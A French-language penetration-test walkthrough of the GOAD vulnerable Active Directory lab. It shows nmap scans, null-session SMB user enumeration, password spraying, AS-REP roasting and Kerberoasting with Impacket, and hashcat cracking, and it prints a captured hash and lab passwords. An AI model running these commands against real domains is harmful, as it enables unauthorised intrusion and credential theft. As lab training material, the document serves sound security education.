


# Test d'intrusion sur l'environnement GoAD

## Introduction :
### L'environnement Goad se repose sur trois Actives Directory, trois royaumes et deux serveurs. Le schéma global de l'infrastructure peut être représenté de cette manière :

### Nous partons du postulat que nous connaissons pas encore les différents comptes présents sur les Actives Directory et nous allons partir en sachant uniquement ces informations-ci :
* 3 royaumes : essos.local, north.sevenkingdoms.local, sevenkingdoms.local
* 5 IP : 
  *   DC01 => sevenkingdoms.local => 10.202.0.139
  *   DC02 => north.sevenkingdoms.local =>  10.202.0.118
  *   DC03 => essos.local => 10.202.0.132
  *   SRV02 => north.sevenkingdoms.local => 10.202.0.108 
  *   SRV03 => essos.local => 10.202.0.124
* 5 hostnames :
  *   DC01 => kingslanding
  *   DC02 => winterfell
  *   DC03 => meereen
  *   SRV02 => castelblack
  *   SRV03 => braavos

### On peut donc remplir notre DNS local sur la machine qui va servir d'attaquante :
    > nano /etc/hosts
    
        10.202.0.139   sevenkingdoms.local kingslanding.sevenkingdoms.local kingslanding
        10.202.0.118   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell
        10.202.0.132   essos.local meereen.essos.local meereen
        10.202.0.108   castelblack.north.sevenkingdoms.local castelblack
        10.202.0.124   braavos.essos.local braavos

## Phase d'énumération :
### On commence par utiliser Nmap pour énumérer les services et ports ouverts sur chacunes des machines :
    sudo nmap -Pn -sC -sV -p- -iL ips-goad.txt -oN resultat-scans.txt

### Contenu ips-goad.txt :
    10.202.0.139
    10.202.0.118
    10.202.0.132
    10.202.0.108
    10.202.0.124

### Résultat des scans (résumé) :
### Sevenkingdoms.local :
     Nmap 7.94 scan initiated Thu Dec  7 03:56:11 2023 as: nmap -Pn -sC -sV -p- -iL ips-goad.txt -oN resultat-scans.txt
    Nmap scan report for sevenkingdoms.local (10.202.0.139)
    PORT      STATE SERVICE       VERSION
    80/tcp    open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    |_http-server-header: Microsoft-IIS/10.0
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
    3269/tcp  open  ssl/ldap      Microsoft Windows Active 
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
    5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 
    | ssl-cert: Subject: commonName=VAGRANT
    | Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 
    49664/tcp open  msrpc         Microsoft Windows RPC
    MAC Address: 08:00:27:39:37:17 (Oracle VirtualBox virtual NIC)
    Service Info: Host: KINGSLANDING; OS: Windows; CPE: cpe:/o:microsoft:windows

### Winterfell.north.sevenkingdoms.local
    Nmap scan report for winterfell.north.sevenkingdoms.local (10.202.0.118
    PORT      STATE SERVICE       VERSION
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active 
    3268/tcp  open  ldap          Microsoft Windows Active 
    3269/tcp  open  ssl/ldap      Microsoft Windows Active 
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
    5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49671/tcp open  msrpc         Microsoft Windows RPC
    49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49673/tcp open  msrpc         Microsoft Windows RPC
    49679/tcp open  msrpc         Microsoft Windows RPC
    49680/tcp open  msrpc         Microsoft Windows RPC
    49683/tcp open  msrpc         Microsoft Windows RPC
    49853/tcp open  msrpc         Microsoft Windows RPC
    50694/tcp open  msrpc         Microsoft Windows RPC
    MAC Address: 08:00:27:36:3B:C0 (Oracle VirtualBox virtual NIC)
    Service Info: Host: WINTERFELL; OS: Windows; CPE: cpe:/o:microsoft:windows

### essos.local :
    Nmap scan report for essos.local (10.202.0.132)
    PORT      STATE SERVICE       VERSION
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
    445/tcp   open               Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: ESSOS)
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: essos.local, Site: Default-First-Site-Name)
    3269/tcp  open  ssl/ldap      Microsoft Windows Active 
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
    5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  msrpc         Microsoft Windows RPC
    49672/tcp open  msrpc         Microsoft Windows RPC
    49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49675/tcp open  msrpc         Microsoft Windows RPC
    49678/tcp open  msrpc         Microsoft Windows RPC
    49686/tcp open  msrpc         Microsoft Windows RPC
    49694/tcp open  msrpc         Microsoft Windows RPC
    MAC Address: 08:00:27:28:B0:94 (Oracle VirtualBox virtual NIC)
    Service Info: Host: MEEREEN; OS: Windows; CPE: cpe:/o:microsoft:windows
      
    NetBIOS MAC: 08:00:27:28:b0:94 (Oracle VirtualBox virtual NIC)
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
    |   Computer name: meereen

### castelblack.north.sevenkingdoms.local :
    Nmap scan report for castelblack.north.sevenkingdoms.local (10.202.0.108)
    PORT      STATE SERVICE       VERSION
    80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Site doesn't have a title (text/html).
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds?
    1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-ntlm-info: 
    |   10.202.0.108:1433: 
    |     Target_Name: NORTH
    |     NetBIOS_Domain_Name: NORTH
    |     NetBIOS_Computer_Name: CASTELBLACK
    |     DNS_Domain_Name: north.sevenkingdoms.local
    |     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
    |     DNS_Tree_Name: sevenkingdoms.local
    |_    Product_Version: 10.0.17763
    | ms-sql-info: 
    |   10.202.0.108:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 
    5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  msrpc         Microsoft Windows RPC
    49671/tcp open  msrpc         Microsoft Windows RPC
    49678/tcp open  msrpc         Microsoft Windows RPC
    61195/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-info: 
    |   10.202.0.108:61195: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 61195
    | ms-sql-ntlm-info: 
    |   10.202.0.108:61195: 
    |     Target_Name: NORTH
    |     NetBIOS_Domain_Name: NORTH
    |     NetBIOS_Computer_Name: CASTELBLACK
    |     DNS_Domain_Name: north.sevenkingdoms.local
    |     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
    |     DNS_Tree_Name: sevenkingdoms.local
    |_    Product_Version: 10.0.17763
    MAC Address: 08:00:27:55:D7:C7 (Oracle VirtualBox virtual NIC)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    |_nbstat: NetBIOS name: CASTELBLACK, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:55:d7:c7 (Oracle VirtualBox virtual NIC)

### braavos.essos.local :
    Nmap scan report for braavos.essos.local (10.202.0.124)
    PORT      STATE SERVICE       VERSION
    80/tcp    open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    | http-methods: 
    |_  Potentially risky methods: TRACE
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: ESSOS
    |   NetBIOS_Domain_Name: ESSOS
    |   NetBIOS_Computer_Name: BRAAVOS
    |   DNS_Domain_Name: essos.local
    |   DNS_Computer_Name: braavos.essos.local
    |   DNS_Tree_Name: essos.local
    |   Product_Version: 10.0.14393
    |_  System_Time: 2023-12-07T09:11:08+00:00
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49666/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    49682/tcp open  msrpc         Microsoft Windows RPC
    MAC Address: 08:00:27:E7:64:EA (Oracle VirtualBox virtual NIC)
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_nbstat: NetBIOS name: BRAAVOS, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:e7:64:ea (Oracle VirtualBox virtual NIC)
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
    |   Computer name: braavos
    |   NetBIOS computer name: BRAAVOS\x00
    |   Domain name: essos.local
    |   Forest name: essos.local
    |   FQDN: braavos.essos.local
    |_  System time: 2023-12-07T01:11:08-08:00

### Avec le résultat de ces scans, on peut esquisser des points d'entrées potentiellement vulnérable :
  * Le RDP (port 3389)
  * Le SMB (port 445)
  * Les serveurs WEB IIS

### On va maintenant utiliser l'utilitaire enum4linux pour récupérer des listes d'utilisateurs :
    while IFS= read -r ip; do touch enum-"$ip";enum4linux $ip >enum-"$ip"; done < ips-goad.txt

### En étudiant rapidement les résultats, on voit que seulement le scan sur north.sevenkingdoms.local (winterfell) (DC02 : 10.202.0.118) a fontionné. On en déduit rapidement que le SMB est mal configuré et qu'on peut s'y connecter avec un utilisateur vide. On peut alors tester rapidement avec la commande suivante :
    crackmapexec smb 10.202.0.118 -u "" up "" 

### On peut alors utiliser notre accès au partage pour lister les utilisateurs présents sur le DC winterfell :
    crackmapexec smb 10.202.0.118 -u "" -p ""  --users

### On peut alors récupérer un premier mot de passe pour l'utilisateur *samwell.tarly* en lisant uniquement sa description : *Heartsbane*.

### En retournant lire le résultat du scan enum4linux, on peut dresser une liste de groupes et d'utilisateurs :

  * Groupe Stark :
    * arya.stark
    * eddard.stark
    * catelyn.stark
    * robb.stark
    * sansa.stark
    * brandon.stark
    * rickon.stark
    * hodor
    * jon.snow
  * Groupe Mormont :
    * jeor.mormont
  * Groupe Night Watch :
    * jon.snow
    * samwell.tarly
    * jeor.mormont
  * Groupe Domain Users :
    * Administrator
    * vagrant
    * krbtgt
    * SEVENKINGDOMS$
    * arya.stark
    * eddard.stark
    * catelyn.stark
    * robb.stark
    * sansa.stark
    * brandon.stark
    * rickon.stark
    * hodor
    * jon.snow
    * samwell.tarly
    * jeor.mormont
    * sql_svc

### On peut tester si le mot de passe que nous avons trouvé tout à l'heure n'a pas été changé :
    crackmapexec smb 10.202.0.118 -u samwell.tarly -p 'Heartsbane' 

 

### Le compte fonctionne toujours... On peut alors passer à la phase d'attaques de mots de passe/élévation de privilèges.

## Les attaques de mots de passes / Kerberos

### On commence par tenter les combos utilisateurs:utilisateurs. Pour cela, on récupère la liste des utilisateurs avec le résultat de enum4linux :
    enum4linux 10.202.0.118 |sed -n 's/.*NORTH\\\(.*\)/\1/p' > users.txt

### Avec Crackmapexec, on peut ensuite utiliser notre liste créé pour tester automatiquement les combos :
    crackmapexec smb 10.202.0.118 -u users.txt -p users.txt --no-bruteforce

### On trouve alors un nouvel utilisateur et mot de passe : *hodor:hodor*

### Dans le doute, on peut essayer avec des mots de passes vides :
    crackmapexec smb 10.202.0.118 -u users.txt -p "" --no-bruteforce

### Malheureusement, aucun ne passe. On peut noter que l'utilisateur Guest est désactivé.

### Dans notre démarche de compromissions de comptes sans utilisateur au préalable, on va désormais tenter l'Asreproasting, qui ne nécessite pas de compte de domaine pour lancer l'attaque. On va alors utiliser la suite Impacket pour utiliser la liste d'utilisateurs que nous avons récupéré avec enum4linux, puis lancer des demandes AS_REQ au DC pour chacun. Si le DC nous renvoie un message AS_REP qui contient le mot de passe hashé de l'utilisateur, alors on pourra tenter de le craquer. On utilise encore une fois Impacket : :
    cd /opt/impacket/examples && sudo python3 GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt

### On peut sinon utiliser un compte valide pour qu'il récupère directement un compte Asreproastable sans utiliser une liste d'utilisateurs :

    sudo python3 /opt/impacket/examples/GetNPUsers.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/hodor:hodor -outputfile hashcrack.txt

### On obtiens un hash qui est celui-ci :
    $krb5asrep$23$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:0b91958de53c03a08d2c4bef38af6675$2e069e48fdcb3ac38995ad9d1451d42bca7ff2e872866204d6d5a465b9758bd8a875ab33b2b9c7197a3b77cd27b45a4342de999162c87dc6cd73926518c0ae6133fc7973d8210ca3cfe1bdc8caebe8bb3a7a4c0cbe640d7b5cb1411938ea57841646795808ca2864ccbf04df46bfde545079a0d5ba224073cf509b1bb85f701a7445be586e91ed31c1da7d83e0bd863f2f8aa62819aec03c98f7447170d3691531cdebd5b9b6ab13239f9c40406b89f819ff8c8d628cd8a9bbca96f5774a7c6799c85dd8216cb0e12f9490ccbe8178cb2134f6d038061ffc9e8f4745d03bd6e3eab3e2f3df1e44bcdecb6b7ef0459a59f38905c0015d818762af7f8ccd0d81fc69493a01e96a

### Pour le cracker avec par exemple hashcat, il faut d'abord trouver le bon mode corresponds. Pour le trouver, il faut se rendre sur le site de hashcat :
    https://hashcat.net/wiki/doku.php?id=example_hashes

### Puis on filtre avec le type de hash :
    $krb5asrep$

### On obtiens alors le mode 18200 et on peut finalement construire la commande finale hashcat :
    hashcat -m 18200 hashcrack.txt /usr/share/wordlists/rockyou.txt

### Après quelques instants, on obtiens le mot de passe de brandon.stark :

### Qui est | brandon.stark:iseedeadpeople

### Finalement, on peut tester une dernière attaque qui est le Kerberoasting et qui nécessite de pouvoir s'authentifier auprès de Kerberos avec un compte valide pour obtenir un TGT. Après avoir obtenu un ticket d'authentification (TGT), on peut alors faire une demande de ticket de service (TGS) pour un utilisateur configuré comme un service (avec les SPN) puis essayer de cracker le TGS reçu.

### On commence par énumérer les utilisateurs vulnérables au Kerberoasting avec notre utilisateur valide :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople

### On remarque que l'utilisateur jon.snow est vulnérable. On va donc demander un ticket de service pour son utilisateur et dans un format de hash compréhensible par Hashcat :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -request-user jon.snow -outputfile kerbe.hash && clear && echo "Voici le hash récupéré : $(cat kerbe.hash)"

### Puis on lance Hashcat pour bruteforcer le mot de passe :
    hashcat -m 13100 --force -a 0 kerbe.hash /usr/share/wordlists/rockyou.txt --force

### Nous avons donc obtenu 4 comptes valides sur le domaine qui sont :
    hodor:hodor
    jon.snow:iknownothing
    brandon.stark:iseedeadpeople
    samwell.tarly:Heartsbane

### On va alors essayer de devenir administrateur du domaine